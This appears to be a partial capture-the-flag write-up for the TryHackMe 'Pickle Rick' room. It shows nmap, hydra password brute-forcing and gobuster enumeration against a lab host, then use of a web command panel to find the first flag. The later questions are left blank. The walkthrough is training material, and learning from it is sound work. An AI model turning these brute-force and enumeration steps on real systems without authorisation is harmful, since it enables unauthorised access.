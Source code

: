 # pickle-rick

[Room](https://tryhackme.com/r/room/picklerick)

# What is the first ingredient that Rick needs?

The homepage's HTML gives the username

```html
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```

Since the website doesn't seems to contains more than the SOS message in the index.html, maybe there is an SSH server running. In effect,

```
nmap 10.10.73.23
Starting Nmap 7.80 ( https://nmap.org ) at 2024-12-01 16:50 -03
Host is up (0.34s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We have one user, what if we use `hydra` to try to brute force the password?

```
hydra -l R1ckRul3s -P /usr/share/wordslists/rockyou.txt 10.10.73.23 ssh
Hydra v9.2 (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secre
t service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-01 17:00:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.73.23:22/
[ERROR] target ssh://10.10.73.23:22/ does not support password authentication (method reply 4)
```

Huh? What is the user for then? Running gobuster dir with a couple of Apache(the server on port 80 is running Apache) didn't work either.

Maybe the image has encoded data? Nope, exiftool doesn't reveal anything.

What if I just can login into the SSH server with the username?

```
ssh R1ckRul3s@10.10.73.23
R1ckRu3s@10.10.73.23: Permission denied (publickey)
```

Nope.

After a couple of days, I came back to Pickle Rick and I realize that the user might be a web application user, not an SSH one. This means that I should
perform directory enumeration

```
gobuster dir -u http://10.10.240.199 -w dirb/common.txt

===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.94.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordslists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/assets               (Status: 301) [Size: 313] [--> http://10.10.94.166/assets/]
/index.html           (Status: 200) [Size: 1062]
/robots.txt           (Status: 200) [Size: 17]
/server-status        (Status: 403) [Size: 277]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```

What if we inpsect robots.txt? There we find the string `Wubbalubbadubdub` and nothing more. It should be a part of the website that bots are allowed/disallowed
to scan but it doesn't seem to be the case here. Maybe we just found the password to the `R1ckRul3s` user? Not so sure.

After some time, the answer came in the form of another dir enumeration, this time with

```
dirbuster dir -u http://10.10.94.166 -w php_files_only.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.94.166
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordslists/php_files_only.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/login.php            (Status: 200) [Size: 882]

```

![](/images/thm/pickle-rick/00.png)

Let's try with `R1ckRul3s:Wubbalubbadubdub`. And it works! Finally, some progress.

There is a command panel, with a text box and the rest of the sections of the site are blocked with a
legend "Only the REAL rick can view this page...". If we look at the login page code

![](/images/thm/pickle-rick/01.png)

We can see that there is a comment with a mysterious string: `Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`.
Let's save it for another time. If we input a random string at the command panel nothing seems to happen. What if go with `pwd`?

![](/images/thm/pickle-rick/02.png)

We've got a hit! But `cat` doesn't seems to work

![](/images/thm/pickle-rick/03.png)

But `ls` works and it points to the right direction

![](/images/thm/pickle-rick/04.png)

Going to /Sup3rS3cretPickl3Ingred.txt gives the flag.

# What is the second ingredient in Rick’s potion?

# What is the last and final ingredient?

# Lessons Learned

- Run `nmap` with `-T4` to perform faster initial scans. Warning: this may trigger defense mechanisms on the target's side.
- More words: https://github.com/xajkep/wordlists/tree/master!
